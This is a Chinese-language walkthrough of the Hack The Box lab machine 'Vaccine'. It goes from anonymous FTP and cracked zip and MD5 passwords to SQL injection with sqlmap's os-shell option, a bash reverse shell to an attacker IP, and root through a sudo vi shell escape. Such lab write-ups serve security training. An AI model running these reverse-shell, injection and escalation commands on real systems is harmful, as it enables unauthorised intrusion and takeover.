


# HTB系列——[Vaccine]

## 一、信息收集

1. 端口扫描，发现开放了21、22、80三个端口，其中21端口ftp允许匿名登录,ftp版本为3.0.3，80端口有web服务，中间件为Apache 2.4.41，服务器系统为Ubuntu

   

2. 识别80端口web服务组件

   

## 二、漏洞利用

1. ftp未授权访问，匿名登录成功

   

2. dir查看ftp中的文件，发现存在一个backup.zip备份文件，get到本地，unzip尝试解压，发现有密码，需要爆破

   

3. 使用zip2john提取zip文件密码的hash值

   

4. 使用john进行hash计算得到密码

   

5. 如上图，密码为741852963，解压backup.zip，获得两个文件index.php、style.css

   

6. 查看index.php文件内容，发现用户名和密码，用户名为admin

   

7. 解密md5，密码明文为qwerty789

   

8. 访问80端口，是一个登录页面，使用前面获取到的账号密码登录

   

9. 成功进入后台，发现有一个搜索框，测试一下单引号

   

10. 发现单引号报错，再测试一下`1' and 1=1 --+`，发现页面回显正常，确定为报错注入

    

    

## 三、getshell

1. 使用sqlmap进行注入，由于后台需要登录，因此sqlmap参数需要加上cookie，网页F12，进入Network，刷新网页，点击一个数据包，在Headers中找到Cookie，复制Cookie的值

   

2. 使用sqlmap进行os-shell获取shell

   ``` shell
   sqlmap -u "http://10.129.132.122/dashboard.php?search=1" --batch --cookie="PHPSESSID=6gui1uavofhh3desotaqbm84ia" --os-shell
   ```

   

3. 先查看一下本机IP，然后通过os-shell反弹一个shell到kali上

   

4. kali使用nc监听一个端口，我这里是4444，os-shell执行以下命令反弹shell

   ``` shell
   bash -c "bash -i >& /dev/tcp/10.10.16.5/4444 0>&1"
   ```

   

5. 在/var/lib/postgresql下找到user.txt

   

6. 先找一下网站的绝对路径

   

7. 发现dashboard.php，cat查看源码，发现用户名postgres的密码

   

## 权限提升

1. ssh直接登录目标主机，执行命令sudo -l，查看有无可利用的提权信息

   

2. 发现`(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf`是root权限，使用vi编辑`/etc/postgresql/11/main/pg_hba.conf`时可获取root权限，执行以下命令

   ``` shell
    sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
   ```

   

3. shift+冒号，然后输入以下命令，回车

   ``` shell
   set shell=/bin/sh
   ```

   

4. 再shift+冒号，输入shell，回车

   

5. 成功获取到root权限

   

6. cd到root目录下，找到root.txt

   